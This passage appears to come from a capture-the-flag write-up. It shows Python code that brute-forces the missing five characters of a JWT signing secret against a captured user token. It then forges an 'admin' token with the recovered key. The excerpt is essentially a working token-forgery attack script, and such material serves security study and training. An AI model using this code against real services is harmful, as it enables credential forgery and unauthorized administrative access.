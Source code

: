 ```python
    ).digest()

    ecoded_sig = base64.urlsafe_b64encode(sig).decode("utf-8").rstrip("=")

    jwt_token = "{sig_payload}.{sig}".format(
      sig_payload = sig_payload,
      sig = ecoded_sig
    )

    return jwt_token
    
def brute_force_secret_key(known_secret_key):
    
    # Assuming only lowercase letters as the first 10 characters are lowercase
    lowercase_letters = 'abcdefghijklmnopqrstuvwxyz'

    total_combinations = len(lowercase_letters) ** 5
    progress_bar = tqdm(total=total_combinations, unit='combination')

    for combination in itertools.product(lowercase_letters, repeat=5):
        # Create the potential secret key by combining the known key and the brute-forced lowercase letters
        secret_key = known_secret_key + ''.join(combination)

        check_token = create_jwt_token("saad", secret_key.encode())

        original_jwt_token = "eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6InNhYWQifQ.N87s9fHVZzgaytkjwri3MQ"

        if (check_token == original_jwt_token):
              print(f'Found original key: {secret_key}')
              return secret_key
              
        progress_bar.update(1)

    else:
        progress_bar.close()
        print("Secret Key not found!")
        return None


partial_secret_key = "fsrwjcfszeg"

original_secret_key = brute_force_secret_key(partial_secret_key)

print("JWT Token of admin: ", end="")
print(create_jwt_token("admin", original_secret_key.encode()))
```

![Brute-forced key and admin token](31.png "Brute-forced key and admin token")
